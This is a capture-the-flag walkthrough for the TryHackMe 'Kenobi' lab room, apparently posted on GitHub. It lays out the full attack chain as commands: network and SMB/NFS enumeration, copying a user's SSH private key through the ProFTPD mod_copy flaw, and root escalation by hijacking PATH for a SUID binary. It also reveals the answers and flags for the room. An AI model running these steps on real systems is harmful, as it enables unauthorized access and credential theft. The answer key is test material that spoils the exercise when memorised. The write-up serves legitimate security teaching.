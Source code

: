 ![Kenobi Banner](https://i.imgur.com/zWNY3JF.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Cover.png" alt="Kenobi Logo">
</p>

# Kenobi

This guide contains the answer and steps necessary to get to them for the [Kenobi](https://tryhackme.com/room/kenobi) room.

## Table of contents

- [Deploy the vulnerable machine](#deploy-the-vulnerable-machine)
- [Enumerating Samba for shares](#enumerating-samba-for-shares)
- [Gain initial access with ProFtpd](#gain-initial-access-with-proftpd)
- [Privilege Escalation with Path Variable Manipulation](#privilege-escalation-with-path-variable-manipulation)

### Deploy the vulnerable machine

1. Make sure you're connected to our network and deploy the machine

2. Scan the machine with nmap, how many ports are open?

   Using nmap we can scan for open ports using:

   ```console
   sudo nmap -sS 10.10.208.77
   ```

   ![Deploy Nmap](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Deploy_Nmap.png)

   ><details><summary>Click for answer</summary>7</details>

### Enumerating Samba for shares

1. Using nmap we can enumerate a machine for SMB shares. Nmap has the ability to run to automate a wide variety of networking tasks. There is a script to enumerate shares! `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP` SMB has two ports, 445 and 139. Using the nmap command above, how many shares have been found?

   Using the following command we can find all available shares:

   ```console
   nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.208.77
   ```

   ![Enumerate Shares](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Enumerate_Shares.png)

   ><details><summary>Click for answer</summary>3</details>

2. On most distributions of Linux smbclient is already installed. Lets inspect one of the shares. `smbclient //MACHINE_IP/anonymous` Using your machine, connect to the machines network share. Once you're connected, list the files on the share. What is the file can you see?

   We can connect to the share using `smbclient //10.10.208.77/anonymous`.

   Then we list the files using `dir`.

   ![Enumerate Files](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Enumerate_Files.png)

   We can download this file using `smbget`.

   ```console
   smbget -R smb://10.10.208.77/anonymous
   ```

   ![Enumerate Smbget](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Enumerate_Smbget.png)

   ><details><summary>Click for answer</summary>log.txt</details>

3. You can recursively download the SMB share too. Submit the username and password as nothing. `smbget -R smb://MACHINE_IP/anonymous` Open the file on the share. There is a few interesting things found. Information generated for Kenobi when generating an SSH key for the user Information about the Pro FTPD server. What port is FTP running on?

   In our previous nmap scan we can find the port ftp is running on.

   ><details><summary>Click for answer</summary>21</details>

4. Your earlier nmap port scan will have shown port 111 running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve. In our case, port 111 is access to a network file system. Lets use nmap to enumerate this. `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount MACHINE_IP` What mount can we see?

   Using the following command and script we can find out which mount is accessible.

   ```console
   nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.208.77
   ```

   ![Enumerate Mount](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Enumerate_Mount.png)

   ><details><summary>Click for answer</summary>/var</details>

### Gain initial access with ProFtpd

1. Lets get the version of ProFtpd. Use netcat to connect to the machine on theFTPport. What is the version?

   We can either get the version by scanning with nmap (using -sV) or netcat.

   ```console
   nmap 10.10.208.77 -p21 -sV
   ```

   ```console
   nc 10.10.208.77 21
   ```

   ![Proftp Version](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Proftp_Version.png)

   ><details><summary>Click for answer</summary>1.3.5</details>

2. We can use searchsploit to find exploits for a particular software version. Searchsploit is basically just a command line search tool for exploit-db.com. How many exploits are there for the ProFTPd running?

   Using the following command we can find any exploits for this particular version.

   ```console
   searchsploit proftp 1.3.5
   ```

   ![Proftp Exploits](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Proftp_Exploits.png)

   ><details><summary>Click for answer</summary>4</details>

3. You should have found an exploit from ProFtpd'smod_copy module.The mod_copy module implementsSITE CPFRandSITE CPTOcommands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from anypart of the filesystem to a chosen destination.We know that theFTPservice is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user.

4. We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands. We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.

   Running `site help` when connected to the FTP server we can indeed see that the cpfr and cpto commands are available. We can use these to move the id_rsa ssh key to the /var folder.

   ```console
   site cpfr /home/kenobi/.ssh/id_rsa
   site cpto /var/tmp/id_rsa
   ```

   ![Proftp Transfer](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Proftp_Transfer.png)

5. Lets mount the /var/tmp directory to our machine `mkdir /mnt/kenobiNFS`. `mount MACHINE_IP:/var /mnt/kenobiNFS` `ls -la /mnt/kenobiNFS` We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account.What is Kenobi's user flag (/home/kenobi/user.txt)?

   After mounting the /var share using:

   ```console
   sudo mount 10.10.208.77:/var /mnt/KenobiNFS
   ```

   we now have access to it from our machine. And we can cleary see the moved ssh key inside.

   ![Proftp Mounted](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Proftp_Mounted.png)

   Now lets move the file to our main folder and change the permissions to strict (otherwise ssh won't allow us to use it).

   ```console
    cp /mnt/KenobiNFS/tmp/id_rsa .
    chmod 600 id_rsa
    ```

    ![Proftp Copy](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Proftp_Copy.png)

    Now we can use the key to ssh into the machine using:

    ```console
    ssh -i id_rsa kenobi@10.10.208.77
    ```

    ![Proftp Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Proftp_Flag.png)

   ><details><summary>Click for answer</summary>d0b0f3f53b6caa532a83915e19224899</details>

### Privilege Escalation with Path Variable Manipulation

1. SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.To search the a system for these type of files run the following: `find / -perm -u=s -type f 2>/dev/null`. What file looks particularly out of the ordinary?

   After running `find / -perm -u=s -type f 2>/dev/null` we can look through the returned files for any that may stand out.

   ![Escalation Suid](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Escalation_Suid.png)

   ><details><summary>Click for answer</summary>/usr/bin/menu</details>

2. Run the binary, how many options appear?

   Run the binary with `menu`.

   ![Escalation Menu](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Escalation_Menu.png)

   ><details><summary>Click for answer</summary>3</details>

3. Strings is a command onLinuxthat looks for human readable strings on a binary. This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname). As this file runs as the root users privileges, we can manipulate our path gain a root shell. We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!

4. What is the root flag (/root/root.txt)?

   First we must create a version of curl containing a shell and give it the right permissions.

   ```console
   echo /bin/sh > /tmp/curl

   chmod 777 /tmp/curl
   ```

   Next we must add the `/tmp` folder to the PATH variable and we can run the program.

   ```console
   export PATH=/tmp:$PATH
   
   /usr/bin/menu
   ```

   Select option 1 to get a shell. Now we can get our flag.

   ![Escalation Shell](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/kenobi/Kenobi_Escalation_Shell.png)

   ><details><summary>Click for answer</summary>177b3cd8562289f37382721c28381f02</details>

